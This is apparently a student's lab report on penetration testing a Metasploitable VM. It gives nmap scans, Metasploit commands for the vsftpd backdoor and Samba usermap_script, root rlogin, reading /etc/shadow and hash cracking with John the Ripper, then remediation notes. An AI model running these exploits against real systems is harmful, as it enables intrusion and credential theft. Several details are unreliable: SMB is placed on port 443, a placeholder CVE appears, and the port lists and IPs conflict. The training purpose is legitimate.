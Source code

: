 Network Penetration Testing with Real-
World Exploits
and Security Remediation


-----------



Project objectives –
The objective of this project is to simulate real-world network penetration testing in
a Controlled environment using Kali Linux and a vulnerable Metasploitable VM. It
includes Scanning, reconnaissance, enumeration, exploitation, user privilege
escalation, password Cracking, and providing remediation.


------------------




Introduction –
Penetration testing is a critical component in identifying vulnerabilities and
assessing the security posture of systems. This project involves ethical hacking
techniques to exploit and analyze a target system. It replicates real-world exploitation
techniques to uncover system weaknesses and recommend appropriate remediations.




-------------------




Theory About the Project –
Network penetration testing is the process of evaluating a system’s network
security by simulating Attacks from malicious outsiders and insiders. The goal is to find
security loopholes before attackers Do. It includes multiple phases:
1. Scanning – Detecting devices and open ports.
2. Reconnaissance – Gathering information about services and OS.
3. Enumeration – Extracting system and service-specific data.
4. Exploitation – Leveraging vulnerabilities to gain unauthorized access.
5. Privilege Escalation – Creating a new user with elevated privileges.
6. Password Cracking – Retrieving passwords from captured hashes.
7. Remediation – Providing fixes and updates for identified vulnerabilities.



----------------



Project requirements –
Two Operating System-
1. Kali Linux (Attacking machine)
2. Metasploitable machine ( Target Machine)



--------------






Tools Details:
• Kali Linux - The attacker machine, containing pre-installed penetration testing
tools.
• Metasploitable - A vulnerable machine to practice attacks on.
• Nmap - For network scanning, port discovery, OS
detection, and service version enumeration.
• Metasploit Framework - For exploiting known vulnerabilities in services running
on the target.
• John the Ripper - For cracking hashed passwords obtained from /etc/shadow
• Netcat
• VM Manager (VirtualBox/VMware)





---------------------




Tasks
Network Scanning
Task 1: Basic Network Scan
Step 1: Open a terminal on your Kali Linux machine.
Step 2: Run a basic scan on your local network.
Nmap -v YOUR_IP_RANGE
• nmap -v 192.168.160.131
Task 2 – Reconnaissance




----------------





Task 1: Scanning for hidden Ports
Step 1: To scan for hidden ports , we have to scan whole range of ports on that specific
targeted ip address.
nmap -v -p- YOUR_TARGET_IP_ADDRESS
• nmap -v -p- 192.168.160.131
Output:
Total Hidden Ports = 7
List of hidden ports
1. 8787
2. 36588
3. 53204
4. 53452
5. 59437
6. 3632
7. 6697

-----------

Task 2: Service Version Detection
Step 1: Use the -sV option to detect the version of services running on open ports:
nmap -v -sV YOUR_TARGET_IP_ADDRESS
• nmap -v -sV 192.168.160.131
Output:

---------------

Task 3: Operating System Detection
Step 1: Use the -O option to detect the operating systems of devices on the network:
Nmap -v -O YOUR_TARGET_IP_ADDRESS
• nmap -v -O 192.168.160.132
Output:
Task 3 - Enumeration
Target IP Address ENTER_YOUR_TARGET_IP_ADDRESS
Operating System Details (ADD_YOUR_TARGET_OS_DETAILS)
Target IP Address – 192.168.160.131
Operating System Details –
MAC Address: 00:0C:29:AB:A7:B8 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Services Version with open ports (LIST ALL THE OPEN PORTS EXCLUDING HIDDEN
PORTS)


Hidden Ports with Service Versions (ONLY HIDDEN PORTS)
1. 8787/tcp open drb Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
2. 3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
3. 6697/tcp open irc UnrealIRCd
4. 35851/tcp open mountd 1-3 (RPC #100005)
5. 36571/tcp open nlockmgr 1-4 (RPC #100021)
6. 44585/tcp open java-rmi GNU Classpath grmiregistry
7. 51228/tcp open status 1 (RPC #100024)


---------------



Task 4- Exploitation of services
1. vsftpd 2.3.4 (Port 21 - FTP)
• msfconsole
• use exploit/unix/ftp/vsftpd_234_backdoor
• set RHOST 192.168.160.131
• set RPORT 21
• run
2. SMB 3.0.20-Debian (Port 443)
• search smb version
• use auxiliary/scanner/smb/smb_version
• use exploit/multi/samba/usermap_script
• show options
• set RHOST 192.168.160.131
• run
3. Exploiting R Services (Port 512,513,514)
• nmap -p 512,513,514 -sC -sV –script=vuln 192.168.160.131
• rlogin -l root 192.168.160.131



--------------



Task 5 - Create user with root permission
adduser your_name
Set a simple password example 12345 or hello or 987654321
Get the details of user in /etc/passwd
Enter details of the new user you have added in Metasploit
• adduser minakshi
• password hello
• sudo usermod -aG sudo minakshi
• cat /etc/passwd | grep minakshi
• minakshi:x:1002:1002:,,,:/home/minakshi:/bin/bash
• sudo cat /etc/shadow | grep minakshi0x ra
• minakshi:$y$j9T$ep3Qv2Hy8a5uO71kK7yOm0$rxMKpQlW2n/XflTYSpcCljAKbKR
OVgZHXHr50E5ed.4:20223:0:99999:7:::


---------------



Task 6 – Cracking password hashes
• nano minakshi_hash.txt
• /john minakshi_hash.txt
• /john minakshi_hash.txt –show



----------------



Task 7 – Remediation
1. FTP Service (vsftpd)
• Current Version: vsftpd 2.3.4
• Latest Version: vsftpd 3.0.5 (2025)
• Vulnerability:
➔ Backdoor in 2.3.4 allows root shell access via crafted payload.
➔ CVE: CVE-2011-2523
• Impact: Full system compromise by unauthenticated attackers.
• Remediation:
➔ Upgrade to vsftpd 3.0.5 (fully patched)
➔ Or disable FTP entirely and switch to SFTP (via SSH)
2. Samba SMB (Port 443)
• Current Version: Samba 3.0.20
• Latest Version: Samba 4.20.1 (May 2025)
• Vulnerabilities:
➔ Remote Code Execution (RCE)
➔ Session hijacking
➔ Arbitrary file read/write
➔ CVE-2007-2442: Command injection via username map script
➔ CVE-2017-XXXX: Arbitrary code execution
• Impact: Attackers can gain shell access, move laterally, and steal credentials.
• Remediation:
➔ Upgrade to Samba 4.20.1
➔ Disable SMBv1, restrict to trusted IPs only
➔ Harden /etc/samba/smb.conf:
➔ Disable guest access
➔ Enable detailed logging
3. R Services (Ports 512–514)
• Services Affected: rexec, rlogin, rsh (legacy UNIX services)
• Status: Obsolete, insecure, and deprecated
• Vulnerabilities:
➔ Sends plaintext credentials
➔ Vulnerable to MITM and replay attacks
➔ Weak or no authentication
➔ CVE-1999-0651: Allows unauthorized remote access if
.rhosts/hosts.equiv misconfigured
• Impact: Network users can impersonate others and execute remote commands
• Remediation:
➔ Immediately disable rexec, rlogin, and rsh services
➔ Replace with SSH-based alternatives
• Reference: MITRE CVE-1999-0651


--------------




Major Learning From this project –
• Developed a comprehensive understanding of penetration testing workflow.
• Gained hands-on experience with Nmap, Metasploit, and John the Ripper.
• Learned to responsibly report and remediate security issues.
• Understood vulnerabilities associated wit
